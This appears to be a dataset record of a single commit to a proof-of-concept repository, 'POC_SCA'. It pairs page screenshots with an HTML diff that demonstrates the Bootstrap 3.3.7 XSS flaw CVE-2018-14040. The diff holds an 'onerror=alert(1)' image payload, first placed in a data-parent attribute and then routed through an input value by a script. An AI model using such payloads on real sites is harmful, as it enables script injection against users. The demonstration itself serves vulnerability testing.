

Before and after one commit to samvilleneuve/POC_SCA, a plain HTML site: page bootstrap_Local_3.3.7.html in a window 1280 px wide. Shown: the top 804 px of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Change CVE-2018-14040 for local Bootstrap 3.3.7

```diff
--- a/bootstrap_Local_3.3.7.html
+++ b/bootstrap_Local_3.3.7.html
@@ -16,7 +16,9 @@
         <a href="." class="btn btn-primary btn-lg px-4">Local files</a>
     </div>
     <br>
-    <a id="x" data-toggle="collapse" href="#x" data-parent="<img src=x onerror=alert(1) />">XSS CVE-2018-14040 Bootstrap < 3.4.0 || < 4.1.2</a>
+    Any Text <input id="inputtest" type="text" value="<img src=x onerror=alert(1) />"/>
+    <a id="x" data-toggle="collapse" href="#x" data-parent="">XSS CVE-2018-14040 Bootstrap < 3.4.0 || < 4.1.2</a>
+    <script>$("#x").attr("data-parent",$("#inputtest").val());</script>
     <br>
     <section class="vulnerability-info-section">
       <h2>Vulnerability Information</h2>
```
